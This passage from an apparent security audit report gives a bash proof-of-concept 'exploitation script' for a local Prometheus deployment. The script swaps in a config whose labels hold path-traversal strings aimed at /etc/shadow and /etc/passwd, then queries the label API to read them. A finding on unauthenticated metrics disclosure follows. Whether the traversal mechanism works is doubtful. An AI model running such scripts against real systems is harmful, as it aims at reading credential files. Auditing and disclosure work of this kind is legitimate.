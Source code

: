 ```bash
curl http://localhost:9090/api/v1/targets | grep -A5 -B5 passwd
```

**Automated Exploitation Script**:
```bash
#!/bin/bash
# POC: Path traversal via volume mounts

echo "[*] Setting up path traversal exploit..."

# Backup original config
cp prometheus.yml prometheus.yml.bak

# Create malicious config
cat > prometheus.yml << 'EOF'
global:
  scrape_interval: 15s
  external_labels:
    exploit: "../../../../etc/shadow"

scrape_configs:
  - job_name: 'path_traversal'
    static_configs:
      - targets: ['localhost:9090']
        labels:
          __meta_filepath: '../../../../etc/passwd'
EOF

# Start services
./manage.sh up

sleep 5

# Try to access sensitive files
echo "[*] Attempting to read sensitive files..."
curl -s http://localhost:9090/api/v1/label/__meta_filepath/values

# Cleanup
./manage.sh down
mv prometheus.yml.bak prometheus.yml
```

### 5. Prometheus Information Disclosure (Medium - CVSS 5.3)

**Description**: Prometheus endpoint exposes sensitive metrics and system information without authentication.

**Impact**: Information disclosure including system metrics, container information, and potential credentials in labels.

#### Proof-of-Concept Exploit
